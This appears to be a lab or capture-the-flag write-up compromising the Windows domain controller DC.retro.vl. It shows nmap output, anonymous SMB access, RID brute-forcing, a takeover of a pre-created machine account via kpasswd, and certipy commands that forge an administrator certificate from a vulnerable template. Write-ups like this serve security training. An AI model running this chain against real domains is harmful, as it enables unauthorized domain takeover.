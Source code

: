 # Enumeration
```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-04-13 08:24:33Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: retro.vl0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC.retro.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.retro.vl
| Not valid before: 2023-07-23T21:06:31
|_Not valid after:  2024-07-22T21:06:31
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: retro.vl0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC.retro.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.retro.vl
| Not valid before: 2023-07-23T21:06:31
|_Not valid after:  2024-07-22T21:06:31
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: retro.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC.retro.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.retro.vl
| Not valid before: 2023-07-23T21:06:31
|_Not valid after:  2024-07-22T21:06:31
|_ssl-date: TLS randomness does not represent time
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: retro.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC.retro.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.retro.vl
| Not valid before: 2023-07-23T21:06:31
|_Not valid after:  2024-07-22T21:06:31
|_ssl-date: TLS randomness does not represent time
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC.retro.vl
| Not valid before: 2024-04-12T06:46:17
|_Not valid after:  2024-10-12T06:46:17
|_ssl-date: 2024-04-13T08:25:54+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: RETRO
|   NetBIOS_Domain_Name: RETRO
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: retro.vl
|   DNS_Computer_Name: DC.retro.vl
|   DNS_Tree_Name: retro.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-04-13T08:25:15+00:00
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```
 Using smbmap we notice a share called Trainees accessible anonymously
![](attachment/7250721ec0c847f0ddf83273a7717ad1.png)
Accessing it there is a single file called Important.txt:
![](attachment/36a1412778810ceabe5b40649b2058af.png)
So trying an rid bruteforce to get usernames:
![](attachment/e8b6f4ef33cfb827cef394cdf724ee23.png)
Now trying trainee password we get a login![](attachment/80a397d505196157019b58f4b5014d7f.png)
Now we can access a share called Notes

And there is a note called todo.txt:
![](attachment/dc7b121c89f73f35ad7a85488c5cb808.png)
We have a precreated account.
![](attachment/01395260299602960c211b65bf067668.png)
It is banking

Now we can change password with *kpasswd*
Modify `/etc/krb5.conf`
![](attachment/ae88ffe504782acc75946fa43f01cdd9.png)
Now changing password with kpasswd:
![](attachment/bc14e95937dfa1a22e8270e84e6e4454.png)
![](attachment/098f252a335235d37f2afe4868b39558.png)
Now finding vulnerable certificates:
```
sudo certipy-ad find -u 'BANKING$' -p 'aditya123@' -dc-ip 10.10.96.55 -stdout -vulnerable
```
![](attachment/3b3309d2da2f9bff54472c8e356e1bd9.png)
Now requesting certificate:
```
sudo certipy-ad req -u 'BANKING$'@retro.vl -c 'retro-DC-CA' -target 'DC.retro.vl' -template 'RetroClients' -upn 'administrator@retro.vl' -dc-ip 10.10.96.55 -key-size 4096 -debug
```
And authenticating:
```
certipy auth -pfx administrator.pfx -dc-ip 10.10.96.55  
```
![](attachment/2407302d152a5a703a4b95fb32e33734.png)